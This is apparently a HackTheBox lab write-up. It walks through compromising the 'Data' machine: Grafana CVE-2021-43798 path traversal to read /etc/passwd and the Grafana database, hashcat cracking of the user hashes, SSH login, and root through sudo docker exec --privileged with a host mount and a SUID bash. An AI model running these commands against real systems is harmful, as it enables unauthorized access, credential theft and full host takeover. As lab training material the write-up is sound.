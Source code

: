 # [HackTheBox - Data](https://app.hackthebox.com/machines/Data)

![d00a1fb57b96b9ced6d6ec46f6694f42.png](/resources/d00a1fb57b96b9ced6d6ec46f6694f42.png)

## Table of Contents

- [Abstract](#abstract)
- [Enumeration](#enumeration)
- [Initial Access via Grafana CVE-2021-43798](#initial-access-via-grafana-cve-2021-43798)
- [Privilege Escalation via SUDO docker exec with privileged flag](#privilege-escalation-via-sudo-docker-exec-with-privileged-flag)

***
## Abstract 
Data is a vulnlab machine imported to HackTheBox as an Easy Linux box, I started with network enumeration with nmap, revealing this machine is a running SSH and Grafana on port 3000.

Grafana is is running in the docker instance and is vulnerable to Directory Traversal vulnerability via CVE-2021-43798 which I leveraged this vulnerability to retrieve the database file of Grafana and crack the user's password hash contain in the database with hashcat

I leveraged that password to gain a foothold via SSH and discovered that the foothold user can run docker exec with sudo which I utilized it to open interactive root shell inside docker container in privileged mode.

To become root, I utilized privileged mode of docker to mount host filesystem to docker container and setup SUID on bash binary for root and now I use it to become root and root the BOX.

## Enumeration

I start my initial nmap scanning with `-sCV` flag right away since I don't expect much port to be running on Linux box which reveals SSH running on port 22 and Grafana running on port 3000.

![0d804c1fb1d24482267731816e7f2d3b.png](/resources/0d804c1fb1d24482267731816e7f2d3b.png)

I open the Grafana webpage right away which reveals redirect me to the login page and on this page, I notice the version of this Grafana instance right away.

![f5a25d82fd6c63db1048d917c5746a39.png](/resources/f5a25d82fd6c63db1048d917c5746a39.png)

## Initial Access via Grafana CVE-2021-43798

Doing quick google search reveals that this version is fairly old and have several CVEs that can be leveraged like CVE-2021-43798 for arbitrary file read/Directory traversal.

![f115b28a7a6b852e866e2097142e128f.png](/resources/f115b28a7a6b852e866e2097142e128f.png)

CVE-2021-43798 allow unauthenticated user to access local files by specify the path of Grafana pre-installed plugin, PoC of this vulnerability could be found [here](https://www.exploit-db.com/exploits/50581) 

![8c1e244e213f55b4519807e2f4229552.png](/resources/8c1e244e213f55b4519807e2f4229552.png)

Knowing how this vulnerability works, I use curl to read `/etc/passwd` which reveals that It is still vulnerable but one thing to notice here is no existence of user with uid=1000 and that make me believe that this Grafana is running on the docker instance.

```
curl --path-as-is 'http://data.vl:3000/public/plugins/welcome/../../../../../../../../../../../../../etc/passwd'
```
![dc5f9ace779b98a013bd6b2b0fc8bb9f.png](/resources/dc5f9ace779b98a013bd6b2b0fc8bb9f.png)

Next question is how to leverage this vulnerability to gain a foothold? From this [PoC](https://github.com/jas502n/Grafana-CVE-2021-43798), I've found that Grafana have the database file that might contain the password hash of user and I can decrypt it to find if there is a password that can be used to get foothold on the host via SSH.

![5788215d0b508e62c22a8e4e3aad632d.png](/resources/5788215d0b508e62c22a8e4e3aad632d.png)

First, I retrieve the database file using curl like this.

```
curl --path-as-is 'http://data.vl:3000/public/plugins/welcome/../../../../../../../../../../../../../var/lib/grafana/grafana.db' -o grafana.db
```
![48e7d6f38f968ac545a9dce8a47f843c.png](/resources/48e7d6f38f968ac545a9dce8a47f843c.png)

Then I open the database file with sqlite3 and query the user table which reveals that there is another user credential on this host and I will need to crack the password hash to get the password of this user.

```
sqlite3 grafana.db
select * from user;
```
![e42782f89a6391bbb68ba5af019d6ac4.png](/resources/e42782f89a6391bbb68ba5af019d6ac4.png)

There is a [grafana2hashcat](https://github.com/iamaldi/grafana2hashcat) script that can be used to format the hash and salt to crackable hash with hashcat so I download the script and prepare the text file with hash and salt of both users found in the database to "hash,salt" format and now my text file look like this

```
7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8,YObSoLj55S
dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8,LCBhdtJWjl
```

Then I use the script to get crackable hash.

```
python grafana2hashcat.py grafana_hash_salt
```
![ec47056e540cb85b6a5d1c0aba0fa319.png](/resources/ec47056e540cb85b6a5d1c0aba0fa319.png)

After using hashcat to crack the hash, I obtain 1 password as shown in the image below.

```
hashcat -m 10900 hashcat_hashes.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![69ec482c0e3f8991081f10e936b3f437.png](/resources/69ec482c0e3f8991081f10e936b3f437.png)

I utilize NetExec to validate this credential with SSH and the result confirm that I can use this credential to get foothold on the box.

```
uv run nxc ssh data.vl -u boris -p beautiful1 
```
![02b33454380f6270108e68cf8bceed30.png](/resources/02b33454380f6270108e68cf8bceed30.png)

The user flag located on the home folder of boris user as I obtain my foothold via this user.

```
sshpass -p beautiful1 ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" boris@data.vl
```
![ba4c9370421ed9865dd52dda102d50e7.png](/resources/ba4c9370421ed9865dd52dda102d50e7.png)

## Privilege Escalation via SUDO docker exec with privileged flag

After gaining foothold, I check if this user can run any command as root or other user via SUDO and I found that this user can run any of `docker exec` command as root.

```
sudo -l
```
![68bd63d9757f192428c2997e465d7e85.png](/resources/68bd63d9757f192428c2997e465d7e85.png)

To be able to use `docker exec`, I need to confirm the docker container that is running on this box which I know that there must be one container that is running Grafana and now I have the docker container ID to work with.

```
ps aux | grep docker
```
![58bf9e17c915debc324cc900ad65b941.png](/resources/58bf9e17c915debc324cc900ad65b941.png)

One of the most dangerous flags used when running a Docker container with `docker exec` is `--privileged`. This flag gives the container direct access to the host kernel and allows it to run with all capabilities, so by running containers with this flag and will allow me to mount the host filesystem and I will use `/dev/sda1` which is mounted to root directory to mount to it inside the docker image as well. 

![99de0a9127b07b6458c4b6f3d2d059ce.png](/resources/99de0a9127b07b6458c4b6f3d2d059ce.png)

Now I'll run docker exec (via sudo) to open an interactive root shell (bash) inside the running container and as expected that this instance is really the one that host Grafana.

```
sudo /snap/bin/docker exec -it --privileged --user root e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 bash
```
![957a1e58ee8937d55b65d819f6832a63.png](/resources/957a1e58ee8937d55b65d819f6832a63.png)

Time it is the time to mount the host filesystem inside the docker container and I can already see that I can read the root flag with from the docker container right away.

```
mount /dev/sda1 /mnt
```
![7182a4e2561ad430db2953c1307edd31.png](/resources/7182a4e2561ad430db2953c1307edd31.png)

I'm not satisfied with that so I set UID of the root to bash binary and now I will have effective user ID as root when running on the host as well which then concluded this box as I rooted it.

```
cp /mnt/bin/bash /mnt/tmp/
chmod u+s /mnt/tmp/bash
exit
/tmp/bash -p
```
![b182c5270283fd0b362215be597c3881.png](/resources/b182c5270283fd0b362215be597c3881.png)

![51b0d92ef1af169ac4d8955a1b498771.png](/resources/51b0d92ef1af169ac4d8955a1b498771.png)
https://labs.hackthebox.com/achievement/machine/1438364/673
***